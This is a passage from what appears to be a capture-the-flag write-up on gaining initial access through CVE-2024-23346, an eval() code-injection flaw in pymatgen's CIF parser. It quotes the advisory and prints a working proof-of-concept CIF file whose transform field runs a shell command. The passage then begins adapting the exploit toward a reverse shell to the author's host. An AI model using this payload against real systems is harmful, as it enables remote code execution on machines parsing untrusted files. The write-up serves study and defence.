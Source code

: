 ## Initial Access

### CVE-2024-23346 in pymatgen library

When investigating about CIF parser vulnerabilities these two links appeared as the first ones: [Critical Security Flaw in Pymatgen Library (CVE-2024-23346)](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346) and [Arbitrary code execution when parsing a maliciously crafted JonesFaithfulTransformation transformation_string](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f).

As explained by the first reference:

><i>"Pymatgen is an analytical tool that can study materials such as metals, polymers, and crystals. However, a recent security vulnerability exists in one of its methods threatens the integrity of pymatgen's use to take a description of how a material is transformed [...]. This vulnerability allows <b>the execution of arbitrary code when processing untrusted input, as the method insecurely utilizes `eval()`</b>. `eval()` is a function to execute arbitrary Python code, giving room for code injection attacks in the system."</i>

The second reference provides the following proof-of-concept that creates an empty "pwned" file:

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

### Getting a reverse shell with CVE-2024-23346 

First, we modify the PoC in order to verify that the application is actually vulnerable to this CVE. In order to do that, we change the command to perform a GET request to our server located at `10.10.14.182:2222`:
